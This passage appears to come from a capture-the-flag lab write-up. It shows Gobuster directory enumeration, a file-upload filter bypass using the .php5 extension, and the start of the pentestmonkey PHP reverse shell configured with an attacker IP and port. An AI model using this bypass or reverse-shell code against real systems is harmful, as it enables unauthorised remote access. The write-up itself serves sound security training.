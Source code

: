 I used Gobuster to find hidden directories:

```bash
gobuster dir -u http://10.10.95.41/ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![ss4](https://github.com/user-attachments/assets/c5a14b58-1260-42fa-a488-3fb8cef3f13c)

Using a large wordlist like this is maybe overkill, but I like to use this one so I don't miss anything.

The interesting directory found was `/panel`, which contained a file upload functionality:

![ss5](https://github.com/user-attachments/assets/a19d0ed2-3fb1-4409-8b65-fdd66d896549)

### Exploiting File Upload

The next task we are asked to accomplish is to get a reverse shell and retrieve the user flag.

After several attempts with different file extensions:

1. `shell.php` - Blocked
2. `shell.php.jpg` - Uploaded but didn't execute
3. `shell.php1` - Uploaded but didn't execute
4. `shell.php5` - <font color="#c00000">Successfully uploaded and executed</font>

![ss6](https://github.com/user-attachments/assets/69b4a840-9e47-42b6-acc3-fb714c30831a)

shell.php5 worked using a PHP reverse shell from pentestmonkey (modified with my IP and port):

![ss7](https://github.com/user-attachments/assets/f59f531b-3f9e-4116-a4bd-1dcc4dd3cdeb)

The code can be found here:
https://github.com/pentestmonkey/php-reverse-shell

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.13.82.134';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
```